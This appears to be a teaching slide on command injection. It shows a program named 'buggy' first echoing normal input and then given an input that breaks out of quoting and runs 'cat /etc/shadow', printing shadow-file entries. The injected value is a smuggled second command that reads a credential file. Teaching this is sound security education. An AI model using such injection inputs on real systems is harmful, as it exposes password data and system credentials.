

Command Injection
bash$ ./buggy "MISC Rocks!"
MISC Rocks!
bash$ ./buggy "a'; cat '/etc/shadow"
a
root:*:17431:0:99999:7:::
daemon:*:17431:0:99999:7:::
bin:*:17431:0:99999:7:::
sys:*:17431:0:99999:7:::
sync:*:17431:0:99999:7:::
games:*:17431:0:99999:7:::
man:*:17431:0:99999:7:::
…